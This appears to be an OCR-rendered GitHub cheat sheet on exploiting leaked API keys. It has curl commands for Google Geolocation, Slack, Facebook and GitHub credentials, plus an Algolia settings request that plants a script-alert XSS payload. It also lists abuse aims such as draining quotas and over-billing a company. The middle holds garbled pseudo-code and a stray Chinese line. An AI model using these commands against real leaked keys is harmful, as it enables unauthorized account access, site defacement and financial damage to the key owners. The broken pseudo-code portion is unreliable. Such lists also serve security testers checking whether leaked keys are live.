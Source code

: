 |   Geolocate  |   https://www.googleapis.com/geolocation/v1/geolocate?key=KEY_HERE |
灾难性的经济影响!
* Economic Manipulation
* Consumes a company's monthly quota 
* Over-bills with unauthorized usage of this service
* Financial damage to a company
* Conduction of a denial of service attack specific to the service 
function(limit)
{ 
if any 
then, limit
}
{
if maximum 
bill 
}
return
function(control)
{ if control 
for settings 
while exist 
then Google
for [account]
}

### Algolia 

```powershell
curl --request PUT \
  --url https://<application-id>-1.algolianet.com/1/indexes/<example-index>/settings \
  --header 'content-type: application/json' \
  --header 'x-algolia-api-key: <example-key>' \
  --header 'x-algolia-application-id: <example-application-id>' \
  --data '{"highlightPreTag": "<script>alert(1);</script>"}'
```

### Slack API Token

```powershell
curl -sX POST "https://slack.com/api/auth.test?token=xoxp-TOKEN_HERE&pretty=1"
```

### Facebook Access Token

```powershell
curl https://developers.facebook.com/tools/debug/accesstoken/?access_token=ACCESS_TOKEN_HERE&version=v3.2
```

### Github client id and client secret

```powershell
curl 'https://api.github.com/users/whatever?client_id=xxxx&client_secret=yyyy'
```
